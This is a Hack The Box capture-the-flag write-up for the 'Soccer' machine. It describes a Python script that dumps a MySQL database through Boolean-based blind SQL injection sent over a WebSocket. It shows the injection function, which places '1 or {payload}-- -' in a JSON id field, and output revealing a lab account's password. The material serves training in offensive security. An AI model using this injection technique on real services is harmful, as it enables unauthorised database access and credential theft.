 # Hack The Box. Machines. Soccer

Machine write-up: https://7rocky.github.io/en/htb/soccer

### `websocket_sqli.py`

This is an automated Python script that dumps the contents of the current MySQL database exploiting a Boolean-based blind SQL injection from a WebSocket server. The script is adapted from a previous one for [Writer](../Writer#sqlipy).

Due to how WebSocket works, we can't use threads (at least not as we are used to).

Appart from sockets and other minor fixes, the function that exploits the SQLi is different:

```python
from websocket import create_connection

ws = create_connection('ws://soc-player.soccer.htb:9091/ws')


def do_sqli(payload: str) -> bool:
    ws.send(json.dumps({'id': f'1 or {payload}-- -'}))
    return ws.recv() == 'Ticket Exists'
```

The rest of the code is the same as the one for [Writer](../Writer#sqlipy), so read that explanation for more information on how th approach the exploit.

The contents of the database can be obtained in a few minutes:

```console
$ python3 websocket_sqli.py 
{
  "soccer_db": {
    "accounts": {
      "id": [
        "1324"
      ],
      "email": [
        "player@player.htb"
      ],
      "username": [
        "player"
      ],
      "password": [
        "PlayerOftheMatch2022"
      ]
    }
  }
}

Time: 143.27221393585205 s
```
